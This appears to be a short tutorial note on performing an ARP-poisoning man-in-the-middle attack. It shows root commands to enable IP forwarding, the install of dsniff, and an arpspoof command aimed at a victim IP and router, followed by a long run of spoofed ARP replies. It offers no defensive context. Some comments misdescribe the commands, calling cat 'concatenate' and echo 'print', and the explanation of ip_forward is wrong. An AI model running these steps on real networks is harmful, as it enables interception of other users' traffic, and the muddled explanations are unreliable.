

# Man In the Middle (MITM) attach - ARP Poisioning

## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:



Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding